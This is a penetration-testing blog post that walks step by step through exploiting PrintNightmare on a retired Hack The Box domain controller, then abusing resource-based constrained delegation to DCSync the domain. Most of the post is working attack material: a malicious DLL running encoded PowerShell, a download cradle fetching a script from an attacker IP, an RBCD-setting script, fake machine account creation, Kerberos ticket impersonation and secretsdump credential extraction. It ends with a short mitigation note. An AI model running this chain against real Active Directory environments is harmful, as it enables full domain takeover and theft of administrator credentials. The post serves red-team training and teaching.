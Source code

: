 ```yaml
---
layout: post
title: "Leveraging PrintNightmare to Abuse RBCD and DCSync the Domain"
date: 2021-06-30 23:00:00 +0300
author: snovvcrash
tags: [internal-pentest, active-directory, print-spooler, printer-bug, cve-2021-16751, cve-2021-34527, arbitary-file-write, impacket, rbcd]
---
```


A relatively stealthy way to exploit PrintNightmare (CVE-2021-1675 / CVE-2021-34527) by configuring and abusing RBCD on a domain controller.

<!--cut-->

![banner.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/banner.png)
{:.center-image}

* TOC
{:toc}

## Prologue

The recent [PrintNightmare](https://github.com/afwu/PrintNightmare) exploit (post CVE-2021-1675) abuses <strike>in</strike>famous Print Spooler service in order to load and execute arbitary code on a Windows machine.

**<ins>UPD.</ins>** A few days later Microsoft assinged it a brand new **CVE-2021-34527**.

I won't dive into the vulnerability analysis because exploit authors will definitely do it better on the upcoming Black Hat event. As for now a brief description of the attack [can be found on the GitHub](https://github.com/afwu/PrintNightmare#cve-2021-1675-analysis).

Thanks to [@cube0x0](https://twitter.com/cube0x0/status/1409928527957344262) now we have [an impacket-based exploit](https://github.com/cube0x0/CVE-2021-1675) to trigger RCE from a Linux box. Another thing I though about is the red team aspect when generating a custom DLL binary. Good old *msfvenom* is (totally) not enough to fly under the radar of commercial antivirus solutions and/or the SOC team operators. If you ask me, I'd rather not run any C2 agents on the DC but aim for standard Active Directory persistence techniques.

So, what can we do when having access to code execution on the behalf of a computer account and nothing more? Here is when resource-based constrained delegation comes in: impersonating a domain controller an adversary can configure RBCD bits for that specific DC computer object, so that a full AD compromise becomes possible with no need for [adding new users](https://github.com/newsoft/adduser) to privileged groups (which is surely monitored) or running "noisy" malicious stuff on the DC!

## Testing Environment

For demonstration purposes I will use [Multimaster](https://www.hackthebox.eu/home/machines/profile/232) - a retired machine from Hack The Box - as a lab to play with PrintNightmare:

```powershell
PS > (Get-WmiObject -ClassName Win32_OperatingSystem).Caption
Microsoft Windows Server 2016 Standard

PS > (Get-WmiObject -ClassName Win32_OperatingSystem).ProductType
2

PS > systeminfo.exe | findstr OS | select -First 4
OS Name:                   Microsoft Windows Server 2016 Standard
OS Version:                10.0.14393 N/A Build 14393
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Primary Domain Controller

PS > Get-Service Spooler

Status   Name               DisplayName
------   ----               -----------
Running  Spooler            Print Spooler
```

## A Living Nightmare

The first thing I want to do is to prepare a skeleton for malicious DLL binary that will source and execute a PowerShell script served by an HTTP server on my machine. To construct a DLL one may use [a template](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/dll-hijacking#your-own) from HackTricks. Another thing to remember is that a threaded approach should be used to run the command from inside the DLL in order not to kill the parent process of Spooler service when exiting (similar to `EXITFUNC=thread` when generating a payload with msfvenom). Otherwise the Spooler will probably die and you will not have a second chance to trigger the RCE if something goes wrong.

```c
// pwn.c

#include <windows.h>
#include <stdlib.h>
#include <stdio.h>

// Default function that is executed when the DLL is loaded
void Entry() {
    system("powershell -enc <BASE64_PWSH_CODE>");
}

BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
  switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH:
      CreateThread(0, 0, (LPTHREAD_START_ROUTINE)Entry, 0, 0, 0);
      break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
      break;
  }
  return TRUE;
}
```

Next I will grab an example of [how RBCD bytes can be set with native PowerShell](https://github.com/hausec/Set-RBCDBytes/blob/main/Set-RBCDBytes.ps1) (by [@haus3c](https://twitter.com/haus3c)) and change the code for my case:

```powershell
$ID = New-Object System.Security.Principal.NTAccount("megacorp.local\fakemachine$")
$SID = $ID.Translate([System.Security.Principal.SecurityIdentifier]).ToString()
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($SID))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
$DN = ([adsisearcher]"(&(objectclass=computer)(name=MULTIMASTER))").FindOne().Properties.distinguishedname
$adsiobject = [ADSI]"LDAP://$DN"
$adsiobject.Put("msDS-allowedToActOnBehalfOfOtherIdentity", $SDBytes)
$adsiobject.setinfo()
```

Now I have to create a fake machine account to use it when it comes to requesting a forwardable ticket with S4U2Self & S4U2Proxy (some good references on how to abuse RBCD can be found on [PPN](https://ppn.snovvcra.sh/pentest/infrastructure/ad/delegation-abuse#resource-based-constrained-delegation-rbcd) and in my [HTB Hades write-up](/2020/12/28/htb-hades.html#abusing-kerberos-resource-based-constrained-delegation)).

Firstly, I will enumerate if `ms-DS-MachineAccountQuota` allows to add new computer accounts. Do it with PowerShell:

```powershell
Get-ADObject -Identity "DC=megacorp,DC=local" -Properties * | select ms-ds-machineAccountQuota
```

[![check-machineaccountquota-pwsh.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/check-machineaccountquota-pwsh.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/check-machineaccountquota-pwsh.png)

Or do it remotely from Linux with [go-windapsearch](https://github.com/ropnop/go-windapsearch):

```bash
./go-windapsearch --dc 10.10.10.179 -d megacorp.local -u lowpriv -p 'Passw0rd1!' -m custom --filter '(&(objectClass=domain)(distinguishedName=DC=megacorp,DC=local))' --attrs ms-ds-machineAccountQuota
```

[![check-machineaccountquota-ldap.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/check-machineaccountquota-ldap.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/check-machineaccountquota-ldap.png)

At this point I'm sure that new machine account creation will succeed:

```bash
addcomputer.py megacorp.local/lowpriv:'Passw0rd1!' -dc-ip 10.10.10.179 -computer-name fakemachine -computer-pass 'Passw0rd2!'
```

[![create-fake-machine-account.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/create-fake-machine-account.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/create-fake-machine-account.png)

After the machine object is successfully created (in other words we control a domain account with an SPN) I will make a file containing a simple download cradle in PowerShell and convert it to UTF-16LE:

```bash
cat cradle.ps1
IEX(IWR http://10.10.14.11/rbcd.ps1 -UseBasicParsing)

cat cradle.ps1 | iconv -t UTF-16LE | base64 -w0
```

[![create-download-cradle.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/create-download-cradle.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/create-download-cradle.png)

I will put the resulting base64 command into the DLL source code and cross-compile it to x64 using MinGW:

```bash
x86_64-w64-mingw32-gcc pwn.c -o pwn.dll -shared
```

[![compile-dll.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/compile-dll.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/compile-dll.png)

Then move the binary to the SMB share and [check that it's accessible](https://github.com/cube0x0/CVE-2021-1675#smb-configuration):

[![prepare-samba.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/prepare-samba.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/prepare-samba.png)

I will download and install [the modified impacket library](https://github.com/cube0x0/impacket) within a virtual environment as well as download [the exploit itself](https://github.com/cube0x0/CVE-2021-1675/blob/main/CVE-2021-1675.py):

[![install-impacket.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/install-impacket.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/install-impacket.png)

Note that dynamic `pDriverPath` (location of the `UNIDRV.DLL` binary) enumeration feature [was added by cube0x0](https://github.com/cube0x0/CVE-2021-1675/commit/3bad3016aca9a6ebb75e5e687614d1c0d045b1f6) a couple of hours after the release - without it the adversary would have to change the exploit script according to the environment:

```powershell
ls C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_*
```

[![get-pdriverpath.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/get-pdriverpath.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/get-pdriverpath.png)

Fire up an HTTP server with Python and trigger the bug:

```bash
python CVE-2021-1675.py megacorp.local/lowpriv:'Passw0rd1!'@10.10.10.179 '\\10.10.14.11\share\pwn.dll'
```

[![trigger-the-exploit.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/trigger-the-exploit.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/trigger-the-exploit.png)

In the background it will set the `msDS-AllowedToActOnBehalfOfOtherIdentity` property containing objects that can delegate to MULTIMASTER. It can be verified like follows with PowerShell:

```powershell
Get-ADComputer MULTIMASTER -Properties * | select -Expand msds-allowedToActOnBehalfOfOtherIdentity
```

[![check-delegation-pwsh.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/check-delegation-pwsh.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/check-delegation-pwsh.png)

Or I can modify the `findDelegation.py` script to look for delegations on DCs (get rid of this `(!(UserAccountControl:1.2.840.113556.1.4.803:=8192))` part of the search query [here](https://github.com/SecureAuthCorp/impacket/blob/4821d64e3a078a79e60c0b03f08d0984d9a17728/examples/findDelegation.py#L131) which excludes domain controllers from the result) and perform the enumeration from Linux:

```bash
findDelegation.py megacorp.local/lowpriv:'Passw0rd1!' -dc-ip 10.10.10.179
```

[![check-delegation-ldap.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/check-delegation-ldap.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/check-delegation-ldap.png)

Now I can request a service ticket for LDAP:

```bash
getST.py megacorp.local/fakemachine:'Passw0rd2!' -dc-ip 10.10.10.179 -spn ldap/MULTIMASTER.megacorp.local -impersonate 'MULTIMASTER$'
```

[![request-ticket.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/request-ticket.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/request-ticket.png)

And finally DCSync the domain with `secretsdump.py` impersonating the domain controller:

```bash
export KRB5CCNAME=/home/snovvcrash/PrintNightmare/CVE-2021-1675/MULTIMASTER\$.ccache
secretsdump.py multimaster.megacorp.local -dc-ip 10.10.10.179 -k -no-pass -just-dc-user administrator
```

[![dcsync.png](/assets/images/leveraging-printnightmare-to-abuse-rbcd/dcsync.png)](/assets/images/leveraging-printnightmare-to-abuse-rbcd/dcsync.png)

## Afterthoughts

The described vulnerability poses enormous risks to active directory infrastructures and must never be used for illegal purposes. To mitigate the risk the Spooler service should be disabled or uninstalled until an official fix is released by vendor. An example on how to disable the Print Spooler can be found [here](https://github.com/LaresLLC/CVE-2021-1675).

More info on PrintNightmare exploits and the reproducibility of the bug [can be found on my GitBook](https://ppn.snovvcra.sh/pentest/infrastructure/ad/printnightmare).
